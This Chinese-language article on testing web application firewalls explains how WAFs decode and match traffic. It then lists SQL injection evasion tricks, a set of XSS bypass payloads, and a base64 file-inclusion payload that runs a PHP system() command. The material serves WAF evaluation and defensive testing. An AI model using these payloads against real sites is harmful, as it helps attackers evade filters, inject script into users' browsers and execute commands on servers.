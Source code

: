 目前国内外商业WAF可以识别99%以上的常规攻击手段，区别主要就体现在对各类编码后的变形Payload的分析能力上。 

这里面又区分成了两大类思路。

**思路一：**

WAF抓取到HTTP包后，做多重解码，将每重解码的结果提取正则，与特征库进行匹配。各家能解码的层数会有区别。F5的ASM可以支持最多5层并且允许用户手工设定层数。其他家虽不可指定解码层数，但都具备响应能力。

**思路二：**

考虑到正则匹配容易误报漏报，有厂家放弃了这种分析模式，转而做语义分析。长亭科技的SqlChop就是如此，详情可阅读[SQLChop – 一个新型 SQL 注入检测引擎 ](https://blog.chaitin.com/sqlchop-the-sqli-detection-engine/)

在测试中，需要手工对payload做编码变形。详细说来：

SQLi变形

urlencode编码：别小看这种常见的绕过方法，有厂家的WAF还真检测不出来。

unicode编码

关键字大小写替换：这个比较常规了，基本是没有检测不到的。

关键字转为十六进制

关键字用反引号引起来

关键字用/#! #/注释引起来

关键字用/##/注释截断：select转为sel/**/ect

关键字用%00截断

提交的HTTP包中，将x-originating-IP 改为127.0.0.1

提交的HTTP包中，将X-remote-addr 改为127.0.0.1

SQLMAP的各类TAMPER，挨个试一试吧

XSS变形

XSS变形最多，WAF漏报也是最严重的。谁让HTML可利用的标签那么多呢。 

这一块的测试，有赖于测试者平时收集各类XSS payload 的量。我仅列出一部分常见的以供参考： 



```
&lt;embed/src=//goo.gl/nlX0P&gt; 
&lt;object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4="&gt; 
&lt;a onmouseover="window.onerror=;throw 1&gt; 
&lt;svg&gt;&lt;script&gt;varmyvar="YourInput";&lt;/script&gt;&lt;/svg&gt; 
&lt;s%00c%00r%00%00ip%00t&gt;confirm(0);&lt;/s%00c%00r%00%00ip%00t&gt; 
&lt;script&gt;//@cc_on!(1)/*@cc_on~(2)@*/&lt;/script&gt; 
&lt;marquee/onstart=confirm(2)&gt;/ 
&lt;a/onmouseover[x0b]=location='x6Ax61x76x61x73x63x72x69x70x74x3Ax61x6Cx65x72x74x28x30x29x3B'&gt;XSS
```

文件包含绕过

```
data:text/plain;base64,ZGF0YTp0ZXh0L3BsYWluLDw/cGhwIHN5c3RlbSgnY2F0IC92YXIvd3d3L0ZpbGVJbmNsdWRlLnBocCcpPz4=
```
